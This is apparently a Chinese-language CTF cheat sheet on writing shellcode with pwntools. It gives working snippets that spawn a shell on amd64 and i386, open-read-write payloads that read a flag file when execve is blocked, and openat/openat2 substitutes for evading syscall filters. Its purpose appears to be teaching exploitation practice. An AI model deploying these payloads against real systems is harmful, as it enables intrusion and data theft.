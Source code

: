 ## shellcode编写

### 基础的shellcode

直接使用`shellcraft.sh()`调用写好的`sh`程序

```python
shellcode = shellcraft.sh()
payload = asm(shellcode)
```

__amd64:__

```python
shellcode = shellcraft.amd64.linux.sh()
payload = asm(shellcode, arch='amd64', os='linux')
```

__i386:__

```python
shellcode = shellcraft.i386.linux.sh()
payload = asm(shellcode, arch='i386', os='linux')
```

### 禁用execve的shellcode

当禁用execve时，可以直接使用ORW读出flag

```python
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('rax', 'rsp', 0x50)
shellcode += shellcraft.write(1, 'rsp', 0x50)
payload = asm(shellcode)
```

### 禁用execve, open, read和write时，替代函数

禁用open,read和write时候，可以使用openat, readv, writev等函数替代

#### open的替代函数

##### openat

```python
shellcode = shellcraft.openat(-100, 'flag', 0, 0)
payload = asm(shellcode)
```

##### openat2

```python
shellcode = ''
shellcode += shellcraft.pushstr(p64(0) * 3)
shellcode += shellcraft.mov('rdx', 'rsp')                 # rdx = struct open_how{flags=0, mode=0, resolve=0}
shellcode += shellcraft.pushstr('flag')                   # rdi = "flag"
shellcode += shellcraft.openat2(-100, 'rsp', 'rdx', 0x18)
payload = asm(shellcode)
```
